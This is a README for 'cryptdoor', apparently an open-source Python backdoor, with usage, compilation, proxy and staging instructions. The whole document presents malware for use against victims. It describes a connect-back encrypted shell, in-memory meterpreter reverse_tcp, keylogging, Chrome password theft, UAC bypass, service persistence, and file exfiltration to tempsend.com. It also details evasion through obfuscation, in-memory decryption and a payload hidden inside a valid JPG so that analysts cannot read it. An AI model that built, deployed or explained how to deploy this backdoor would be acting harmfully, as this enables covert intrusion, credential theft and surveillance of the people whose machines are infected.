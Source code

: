 cryptdoor
=========

AES encrypted python backdoor that communicates only AES encrypted traffic.  
Shell has the ability to spawn a meterpreter reverse_tcp into memory using VirtualAlloc (taken from Veil-Evasion).  
We can also download and upload files over the secure AES encrypted connection.  
Keylogging is implemented for windows using pyHook.  
All traffic apart from traffic meterpreter makes are encrypted with AES.  
On top of this all of the imports are randomized, and the script is encrypted with AES and decrypts 
itself in memory at runtime (taken from pyherion).  
The main body of backdoor code is hosted at a url and download at runtime by the backdoor.py stub.  
This means that the actual backdoor code only exists in the victim memory.

Usage
=========

        usage: ./cryptdoor.py [options]

        optional arguments:
          -h, --help            show this help message and exit
          -i HOSTNAME, --hostname HOSTNAME
                                Ip or hostname to connect back to.
          -p PORT, --port PORT  Port to connect back to.
          -e EXPIRE, --expire EXPIRE
                        Payload Life: h=hour, d=day, w=week, m=month
          -u CUSTOMURL, --customurl CUSTOMURL
                        Host the generated jpg at this url.
          -a, --persistence     Enable Auto-persistence.
          -b BACKDOORNAME, --backdoorname BACKDOORNAME
                                Name of backdoor (default backdoor.py).
          -s SERVERNAME, --servername SERVERNAME
                                Name of server (default server.py).


cryptdoor.py will make the backdoor and server.
The syntax is:

        ./cryptdoor.py -i host -p port

You can add a -a to attempt automatic persistence:

        ./cryptdoor.py -i host -p port -a

host and port refer to the host and port of the listening server (attacker).  
These are the options you have from within the shell:

	AES-shell options:
    	 download file       -  Download a file from remote pwd to localhost.
    	 upload filepath     -  Upload a filepath to remote pwd.
    	 run commands        -  Run a command in the background.
         wget url            -  Download a file from url to remote pwd.
         tempsend file       -  Upload a file from remote pwd to tempsend.com

	Windows Only:
    	 persistence         -  Install exe as a system service backdoor.
    	 unpersist           -  Remove persistence and exit.
    	 meterpreter ip:port -  Execute a reverse_tcp meterpreter to ip:port.
    	 keyscan             -  Start recording keystrokes.
    	 keydump             -  Dump recorded keystrokes.
    	 keyclear            -  Clear the keystroke buffer.
    	 chromepass          -  Retrieve chrome stored passwords.
    	 bypassuac cmds      -  Run commands as admin.
    	 proxyupdate file    -  Update proxy list from file.

Compilation
=========

The backdoor script can be compiled to a standalone PE executable using pyinstaller on windows.

1. Install python27: https://www.python.org/ftp/python/2.7.8/python-2.7.8.msi
2. Run this script to install pip: https://bootstrap.pypa.io/get-pip.py
3. Press Windows Key+Pause, then "Advanced system settings" then "Environment Variables"
4. You might or not have a "PATH" variable listed there if not add one and write

        "C:\Python27;C:\Python27\Scripts"

If you do already have one just add a colon before adding this to the variable like:

        "C:\oldpath;C:\Python27;C\Python27\Scripts"

5. Open a new cmd terminal and you should be able to:

        pip install pyinstaller pycrypto requests

6. Add ';C:\Python27\Lib\site-packages\PyInstaller' to the end of your PATH variable
7. Install pyHook: http://sourceforge.net/projects/pyhook/files/latest/download
8. Install pywin32: http://sourceforge.net/projects/pywin32/files/pywin32/
9. Place the socks.py file in the same directory as backdoor.py if you want to use a proxy.
10. Open a new cmd promt and cd to wherever backdoor.py is.

        pyinstaller -F -w backdoor.py

11. That's it, enjoy your exe in dist.

Advanced Compilation
=========

You can compile the exe with optimized python files with:

        python -O C:\Python27\Scripts\pyinstaller-script.py -F -w backdoor.py

If you want to upx pack the final exe to decrease final size include tools/upx.exe in the same directory as backdoor.py when you compile with pyinstaller.

Proxies
=========  

NOTE: Proxying is temporarily disabled. Will be back soon.

If you wish to have your backdoor connect back to you through a HTTP/s proxy, there a few things we have to do:

1. Edit the stubs/backdoor.py script from line 310-311, and fill in the values for the proxy details.

2. Get a DDNS pointed at your IP (proxying will not work without one).

3. Then generate your backdoor with the -x switch and replace the IP with your DDNS hostname:

	./cryptdoor.py -i DDNS -p port -x

HTTP proxying is acheived using:

https://github.com/Anorov/PySocks


Obfuscation
=========

Obfuscation of the backdoor source code is acheived using:

https://github.com/astrand/pyobfuscate

Staged payload
=========
The backdoor payload can be hosted on tempsend.com or at a custom url and downloaded and exec'ed at runtime by the 
backdoor.py script.  
This means the actual backdoor code is not included in the final backdoor.py and is therefore further resistant to 
analysis.  
The code will be hidden in a jpg that remains valid so it can be viewed.  
The key for decrypting the payload code is kept in the downloader, so if anyone finds it online, they will not be able
to decrypt it.